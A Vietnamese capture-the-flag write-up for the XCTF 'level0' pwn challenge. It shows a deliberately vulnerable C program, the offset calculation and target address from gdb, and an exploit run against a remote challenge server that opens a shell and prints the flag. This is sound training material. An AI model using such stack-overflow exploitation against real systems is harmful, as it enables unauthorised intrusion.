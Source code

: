 # XCTF - PWN Exercise - level0

```c
#include<stdio.h>

int callsystem()
{
  return system("/bin/sh");
}

ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function(1LL);
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ checksec level0 
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/8_level0/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Đây là một bài khá đơn giản `stack buffer overflow`, mảng kí tự `buf` khai báo có 128 kí tự trong function `vulnerable_function()` nhưng hàm read đọc được 0x200 = 512 kí tự input và không có `canary`  => có thể `stack buffer overflow` ghi đè `return address`.

Trong các hàm của chương trình có sẵn hàm `callsystem` có thể thực thi lấy shell tương tác với server, bây giờ ta cần đi tìm `offset` và địa chỉ hàm `callsystem`.

      +) Địa chỉ của `buf` nằm ở `[rbp-80h]` cộng thêm 0x8 ghi đè `rbp` nữa là đến địa chỉ `return address` => offset = 0x80 + 0x8 = 0x88. 

      +) Tìm địa chỉ `callsystem` qua `gdb` [NOTE]: File x86_64 thay vì nhảy thẳng vào đầu hàm ta sẽ dịch địa chỉ lên 1 hoặc 2 `instructions ASM` để có thể lấy được `shell`, bài này ta sẽ chọn địa chỉ `0x0000000000400597`.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ gdb -q ./level0
pwndbg: loaded 198 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./level0...
(No debugging symbols found in ./level0)
pwndbg> p callsystem
$1 = {<text variable, no debug info>} 0x400596 <callsystem>
pwndbg> disass callsystem
Dump of assembler code for function callsystem:
   0x0000000000400596 <+0>:	push   rbp
   0x0000000000400597 <+1>:	mov    rbp,rsp
   0x000000000040059a <+4>:	mov    edi,0x400684
   0x000000000040059f <+9>:	call   0x400460 <system@plt>
   0x00000000004005a4 <+14>:	pop    rbp
   0x00000000004005a5 <+15>:	ret    
End of assembler dump.
pwndbg> 
```

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 57359: Done
[*] Switching to interactive mode
$ ls
bin
dev
flag
level0
lib
lib32
lib64
$ cat flag
cyberpeace{6b5deeebe3e4c0810b320cdab5e8040e}
$  
```
